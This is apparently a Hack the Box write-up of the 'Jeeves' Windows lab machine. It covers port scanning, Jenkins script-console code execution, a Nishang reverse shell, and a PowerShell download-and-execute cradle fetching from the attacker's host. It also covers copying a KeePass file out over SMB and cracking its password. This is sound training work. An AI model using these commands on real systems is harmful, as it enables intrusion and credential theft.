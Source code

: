 # Hack the Box - Jeeves

```CSS
Machine IP: 10.10.10.63 - Windows
Difficulty: Medium
Category: OSCP Preparation
```

## NMAP

```CSS
▶ nmap -Pn -sS -p- 10.10.10.63 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.63
Host is up (0.18s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 126.42 seconds
```

```CSS
▶ nmap -sC -sV -p 80,135,445,50000 10.10.10.63 -oN deep.nmap 

Nmap scan report for 10.10.10.63
Host is up (0.18s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-05-05T11:01:04
|_  start_date: 2023-05-05T10:53:38
|_clock-skew: mean: 4h59m36s, deviation: 0s, median: 4h59m35s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.18 seconds
```

## HTTP 80
![image](https://user-images.githubusercontent.com/83878909/236389498-19f90e31-9c0d-4d9a-a46d-412576e533ed.png)

## HTTP 50000
![image](https://user-images.githubusercontent.com/83878909/236389674-c5e1bd6b-986d-46fd-b722-774f68fc85b2.png)

## Content Discovery
```CSS
▶ gobuster dir -u http://10.10.10.63:50000 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 25 -o http50000.gobuster
```
![image](https://user-images.githubusercontent.com/83878909/236398246-f2078de0-b176-4b58-ad55-50c921f36af9.png)

### Jenkins
![image](https://user-images.githubusercontent.com/83878909/236398469-e3cc9985-d477-4eb1-ad5d-c2158413b1a3.png)

## Initial Foothold
### Jenkins Code Execution
![image](https://user-images.githubusercontent.com/83878909/236399568-d5c3513a-e53a-4eb0-ad52-78b57a826a65.png)
![image](https://user-images.githubusercontent.com/83878909/236399923-36a48d06-d4bf-4f21-bbbd-774488412b38.png)
![image](https://user-images.githubusercontent.com/83878909/236400279-596d3aac-959f-4467-8461-edf489fdb014.png)
![image](https://user-images.githubusercontent.com/83878909/236403739-d0e075fe-9e51-4c44-a413-c895808a6eb7.png)

### Reverse Shell (Nishang)
```CSS
Invoke-PowerShellTcp.ps1
```
  - Add the below line to the end of the nishang script to call the function `Invoke-PowerShellTcp`.
```CSS
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.24 -Port 1337
```
![image](https://user-images.githubusercontent.com/83878909/236402506-7d9ab4a3-c03b-4f9a-95df-9919a096fab8.png)

### Upload and Execute Reverse Shell
![image](https://user-images.githubusercontent.com/83878909/236404815-a3a749e4-9efe-4822-84f7-c52ff12fadbb.png)
```CSS
cmd = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24:8000/Invoke-PowerShellTcp.ps1')" """
println cmd.execute().text
```
![image](https://user-images.githubusercontent.com/83878909/236404998-1451dc7e-23c3-492c-b2c0-9c4088e3fa56.png)
![image](https://user-images.githubusercontent.com/83878909/236405272-c600aa84-8189-4c49-823c-b3a885c9c1b7.png)

## Privilege Escalation
```CSS
PS C:\Users\kohsuke\Desktop> systeminfo

Host Name:                 JEEVES
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.10586 N/A Build 10586
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00331-20304-47406-AA297
Original Install Date:     10/25/2017, 4:45:33 PM
System Boot Time:          5/5/2023, 6:53:24 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,155 MB
Virtual Memory: Max Size:  2,687 MB
Virtual Memory: Available: 1,747 MB
Virtual Memory: In Use:    940 MB
Page File Location(s):     C:\pagefile.sys 
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 10 Hotfix(s) Installed.
                           [01]: KB3150513 
                           [02]: KB3161102 
                           [03]: KB3172729 
                           [04]: KB3173428 
                           [05]: KB4021702 
                           [06]: KB4022633 
                           [07]: KB4033631 
                           [08]: KB4035632 
                           [09]: KB4051613 
                           [10]: KB4041689 
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.63
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

### Check Privileges
  - Enabled privileges for the current user.
```CSS
PS C:\Users\kohsuke\Desktop> whoami /priv
```
![image](https://user-images.githubusercontent.com/83878909/236414816-1cb17b36-5c1e-4523-9408-e0f0cd9c4ad7.png)
  - SetImpersonatePrivilege is enabled so we’re very likely to get SYSTEM using Juicy Potato. However it is not the intended way to get SYSTEM on this machine.

### Content Discovery
![image](https://user-images.githubusercontent.com/83878909/236416012-ac147c3d-f597-4efe-a993-72b5b024ef42.png)

  - A bit of browsing quickly reveals a CEH.kdbx file in the Documents directory.

#### File Transfer
  - Transfer the `CEH.kdbx` file to attacker machine. Use `netcat` or `impacket-smbserver` for the file transfer.
```CSS
▶ impacket-smbserver PwnStuff `pwd`
```
![image](https://user-images.githubusercontent.com/83878909/236417913-f7d190bb-1536-423b-9281-108512a2bc16.png)
```CSS
PS C:\Users\kohsuke\Documents> New-PsDrive -Name "HardyBoy" -PSProvider "FileSystem" -Root "\\10.10.14.24\PwnStuff"
PS C:\Users\kohsuke\Documents> cd HardyBoy:
```
![image](https://user-images.githubusercontent.com/83878909/236418624-4a8aa8da-1174-4551-8c62-5a4ffb6dd317.png)

```CSS
PS HardyBoy:\> cp C:\Users\kohsuke\Documents\CEH.kdbx
```
![image](https://user-images.githubusercontent.com/83878909/236419375-2e1c8a97-5752-4594-bdf7-9d012466a04f.png)

### Crack KeePass Database Password
```CSS
▶ keepass2john CEH.kdbx
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

```CSS
▶ keepass2john CEH.kdbx > kdbx.hash
▶ john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt kdbx.hash
```
![image](https://user-images.githubusercontent.com/83878909/236423036-e30a1c30-dd2c-460a-9d88-54826270cda1.png)
```CSS
Database Password: moonshine1
```

### KeePass Database
  - Access the `keepass` database using `kpcli`.
```CSS
▶ kpcli --kdb CEH.kdbx 
```
![image](https://user-images.githubusercontent.com/83878909/236424236-8de83712-3f0a-46e0-876d-c2ec3dccff42.png)
